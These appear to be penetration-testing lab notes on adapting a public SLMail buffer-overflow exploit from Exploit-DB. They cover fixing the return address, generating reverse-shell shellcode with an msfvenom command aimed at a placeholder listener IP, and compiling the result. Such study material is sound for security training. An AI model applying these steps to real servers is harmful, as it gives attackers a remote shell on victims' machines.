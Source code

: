 # Public Exploits

---- REMEMBER NOT TO USE CODE WITHOUT CHECKING IT THROUGHLY FIRST -----

## Sources
* [Security Focus](http://securityfocus.com/)
* [Exploit DB](https://www.exploit-db.com/)
* Searchsploit `searchsploit slmail`

## Cleaning a Exploit (1)
1. Find the exploit using `searchsploit slmail`

2. Copy the file to your working folder `cp /usr/share/exploitdb/platforms/windows/remote/643.c .`

3. Open the file and check it line by line, looking for return addresses and shellcode inparticular, the results can be seen in `643-fixed.c`

   - Return address is incorrect and from the comments is for a different server, change `define retadd "\x9f\x45\x3a\x77" /*win2k server sp4 0x773a459f*/
   ` to `define retadd "\x8f\x35\x4a\x5f" /*JMP ESP*/`
   - The hardcoded shell code isn't for our enviroment so we will need to swap that out to the one we generated `msfvenom -p windows/shell_reverse_tcp LHOST=YO.UR.IP.AD LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
   - The offsets also need to be adjusted

4. Then compile using `gcc 643.c -o slmail-linux`

5. Then test our exploit as we did in the linux buffer overflow exercise

